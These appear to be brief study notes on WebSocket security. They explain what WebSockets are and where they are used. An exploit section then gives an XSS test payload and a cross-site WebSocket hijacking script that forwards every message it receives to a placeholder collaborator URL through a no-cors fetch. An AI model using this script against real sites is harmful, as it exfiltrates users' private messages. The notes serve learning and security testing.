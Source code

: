 1.  Websockets are initiated over HTTP and provide long-lived connections with asynchronous (Client does not wait for the responce unlike HTTP) communication in both directions.
2.  Use cases:  
    * Chat apps,  
    * video and voice calls,  
    * online gaming,  
    * live streaming,  
    * real-time updates,  
    * collaborative editing, and other applications that require instant message delivery.  
3. Exploit:   

```
<img src=1 onerror='alert(1)'>
```  

```
<script>
// Create a new WebSocket object and connect to the specified URL
var ws = new WebSocket('wss://your-websocket-url');

// Set an event listener for when the connection is opened
ws.onopen = function() {
// Send a message to the server indicating that the client is ready to receive messages
ws.send("READY");
};

// Set an event listener for when a message is received from the server
ws.onmessage = function(event) {
// Send the received message data as the request body in an HTTP POST request to the specified collaborator URL
// Note that the 'no-cors' mode is used to bypass CORS checks
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```
